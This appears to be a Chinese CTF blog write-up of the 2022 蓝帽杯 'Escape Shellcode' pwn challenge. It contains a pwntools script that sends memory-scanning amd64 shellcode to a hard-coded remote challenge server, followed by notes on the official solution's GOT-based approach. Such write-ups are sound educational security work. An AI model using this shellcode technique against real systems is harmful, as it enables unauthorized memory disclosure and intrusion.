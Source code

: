 ```yaml
---
title: PWN_2022_蓝帽杯_PWN
date: 2022-07-16 10:42:43
tags: ['CTF', 'Pwn', ]
authors: [nova]
categories: ['CTF']

---
```


记录一下前几天打的蓝帽杯的 PWN 题，其他 Misc 和取证就不复现了，打的时候就没整太明白，全靠队友一手带飞。



# Escape Shellcode

我是直接写了很简单的`Shellcode`然后靠运气磨过去（指正好加到`/flag`的那个内存页然后 IO 输出出来）

```python
from pwn import *
context.arch = 'amd64'
context.os = 'linux'
context.log_level = 'DEBUG'

# sh = process(['escape_shellcode'])
sh = remote("39.107.108.120", 44431)
shellcode = """
mov r8, 0x557000000120

run:
    mov rax, 1
    mov rdi, 1
    xor rdx, rdx
    mov rdx, 0x10000
    mov rsi, r8
    syscall
    cmp al, 0xf2
    je looper
    
looper:
    add r8, 0x10000
    jmp run

"""
sh.sendline(asm(shellcode))
sh.interactive()

```

官方 writeup 倒是直接把 bss 的 flag 读出来了。本地调的时候看懂了原理，但是不知道这几个值是怎么出来的。

基本上就是获取了`prctl@got.plt`存到`R8`上（但是我不知道怎么调出来这个，通过`RIP`找到`[rip + 0xfb5 - 7]`这个指针，然后指针的内容加上`0x3e8`就到了这个`@got.plt`），再把真实地址记录到`R9`上。
